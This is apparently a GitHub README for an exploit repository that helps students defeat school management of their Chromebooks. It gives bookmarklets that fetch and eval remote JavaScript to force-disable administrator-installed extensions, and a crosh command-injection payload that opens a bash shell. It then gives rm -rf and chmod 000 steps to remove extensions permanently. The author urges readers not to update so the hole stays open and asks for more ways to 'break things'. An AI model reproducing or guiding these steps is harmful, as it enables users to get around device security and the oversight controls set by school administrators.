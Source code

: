 # ext remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF. And for some reason I put a unenroll exploit aswell yippee

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If you version is above 106, [try this method](https://github.com/3kh0/ext-remover#v106-and-above)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

## v106 and above

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended

STEPS:
1. Downgrade to any version below 101. Instructions are in [Chrome100.dev](https://chrome100.dev).
2. Hit `ctrl+alt+t` to open a crosh window. If it’s blocked by extensions, use LTBEEF. If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.
3. Type in `set_cellular_ppp \';bash;exit;\'` and hit enter. 
4. You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.
5. Type `rm -rf ~/Extensions/*`. **THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK.** If there are extensions you want to keep, they can be selectively removed by ID using `rm -rf ~/Extensions/InsertIdHere`
6. Run `chmod 000 ~/Extensions`. This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.
7. You can now restart chrome, allowing it to update to the latest version. Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

**Things you can’t do**
1. Run sudo or su into root. There might be ways to privilege escalate to root using disclosed chromium bug reports, but at the moment I have not gotten any of them to work on managed chromebooks
2. Enable dev mode or use dev mode things
3. Write to certain protected folders
4. Install packages
5. Install your own extensions. There is no way that known of (right now) to do that, so don’t ask. Please suggest any ideas.
6. Modify an existing extension. Extensions are checksummed before running, so any modification will result in chrome thinking the extension is “corrupted” and trying to redownload it, failing if the directory is marked readonly

If anyone knows some fun commands for the bash shell to break things even further, let me know!

Thanks to CoolElectronics for finding this amazing trick, trent:gra.im and justinchrm for helping with some parts, and the discoverer of the original bash shell exploit found here https://bugs.chromium.org/p/chromium/issues/detail?id=1329945

### Full unenrollment

<img src="https://media.tenor.com/x8v1oNUOmg4AAAAd/rickroll-roll.gif" alt="Rickroll GIFs | Tenor"/>

There are still so many more fun exploits, please [join the discord](https://discord.gg/unblock)

